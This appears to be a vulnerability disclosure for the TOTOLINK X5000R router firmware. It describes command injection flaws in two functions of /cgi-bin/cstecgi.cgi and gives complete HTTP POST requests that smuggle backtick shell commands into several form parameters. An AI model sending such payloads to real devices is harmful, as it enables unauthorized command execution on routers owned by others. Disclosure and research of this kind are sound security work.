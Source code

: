 # TOTOLink X5000R Vulnerabilities
## Vendor of Product
TOTOLINK X5000R - V9.1.0cu.2350_B20230313 (As of April 2, 2024, the latest version provided on the official website (https://www.totolink.net/) is available. )
## Affected Component
The affected component is the file "cstecgi.cgi" located in the directory "/web/cgi-bin”.
## Vulnerability
### Vulnerability 1-4:
TOTOLINK X5000R V9.1.0cu.2350_B20230313 was discovered to contain a command injection vulnerability via the ‘mtu’, “mru”, “ipsecPsk” or the “ ipsecL2tpEnable" parameter in the setL2tpServerCfg function at /cgi-bin/cstecgi.cgi.

To exploit this vulnerability, someone only needs to craft a carefully prepared packet.Here is the specific exploitation process. Firstly, it is necessary to login to the device, then goto the http://192.168.0.1/advance/l2tp.html. It contains a command injection via the “mtu”、”mru”, “ipsecL2tpEnable” and “ipsecPsk” parameter. For example, post a data like this
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 272
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/advance/l2tp.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"enable":"1","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":”1450`ls>/tmp/1`","mru":"1450`ls>/tmp/2`","ipsecL2tpEnable":"1`ls>/tmp/3`","ipsecPsk":"abbbababbababab`ls>/tmp/4`","topicurl":"setL2tpServerCfg","token":"*”}
```
  

### Vulnerability 5-7:
TOTOLINK X5000R V9.1.0cu.2350_B20230313 was discovered to contain a command injection vulnerability via the ‘password’, “port” or the “timeout" parameter in the setSSServer function at /cgi-bin/cstecgi.cgi.

Exploit like this :
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 225
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: [http://192.168.0.1](http://192.168.0.1/)
Referer: [http://192.168.0.1/advance/shadowsocks.html?timestamp=1712493894892](http://192.168.0.1/advance/shadowsocks.html?timestamp=1712493894892)
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"enable":"1","port":”8388`ls>/tmp/1`","timeout":"120`ls>/tmp/2`","password":"adminadmin`ls>/tmp/3`","encryption":"rc4-md5","udpFlag":"0","topicurl":"setSSServer","token":"990bf4b7ea129452ed7f8ce58cbabc83"}
```